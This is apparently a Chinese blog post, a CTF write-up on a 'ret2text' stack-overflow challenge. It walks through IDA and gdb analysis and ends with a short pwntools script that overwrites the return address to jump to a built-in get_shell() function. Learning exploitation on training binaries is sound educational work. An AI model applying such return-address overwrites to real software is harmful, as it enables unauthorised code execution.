 ```yaml
---
layout:     post
title:      pwn学习（一）：栈溢出覆盖返回地址
subtitle:   利用栈溢出获取控制权
date:       2021-05-12
author:     Hongtai S
header-img: img/5.jpg
catalog: true
tags:
    - 漏洞
    - 二进制
    - 栈溢出
    - pwn
---
```

# 栈溢出覆盖返回地址 #


## ret2text题目分析 ##

将文件ret2text拖入Ida中查看还原的C代码：

![1.PNG](https://i.loli.net/2021/08/07/5DFHOYzJjEMqRpt.png)

看到可以的函数vulnerable()，跟进查看：

![2.PNG](https://i.loli.net/2021/08/07/nEvxPSeLVlBYT9U.png)

发现不安全的gets()函数,能够利用栈溢出覆盖返回地址以获取一次劫持程序执行流的机会。

继续寻找能够利用的跳转地址，发现程序中包含get_shell()函数，跟进：

![3.PNG](https://i.loli.net/2021/08/07/J6ucoV7dN4yfRMS.png)

![4.PNG](https://i.loli.net/2021/08/07/GOHkcoy9vKeudPp.png)

刚好是能够获取目标系统的shell函数，入口地址为0x08048522，将返回地址覆盖为入口地址即可成功获取shell
在Ida中显示函数vulnerable()的buffer字符串与ebp的距离为10h，栈中返回地址前需要填充10h(与ebp距离) + 4(ebp)大小的字符串也就是"AAAA" * 4 + "BBBB"，最后加上get_shell()的入口地址0x08048522。

gdb动态调试验证：

跟进vulnerable()函数，输入字符串AAAA后查看栈中情况：

![5.PNG](https://i.loli.net/2021/08/07/iBRWqTX86PlJdGv.png)

![6.PNG](https://i.loli.net/2021/08/07/BqTnkwOFS8pX7VE.png)

可以看到从字符串起止地址覆盖到返回地址总共需要20个字符，与实际情况相符。

## 编写脚本 ##

 ```python
from pwn import *

#远程连接服务器使用remote函数
#io = remote("ip", port)

#使用本地进程测试使用process函数
io = process("ret2text")

#接受程序的一行打印
io.recvline()

#构造覆盖返回地址的字符串，注意要将数据转为字节的形式
payload = b'AAAA' * 5 + p32(0x8048522)

#发送构造的数据
io.sendline(payload)

#获取shell交互权限
io.interactive()

```

运行脚本成功获取shell权限
![7.PNG](https://i.loli.net/2021/08/07/vStumLenk1B2C4Z.png)



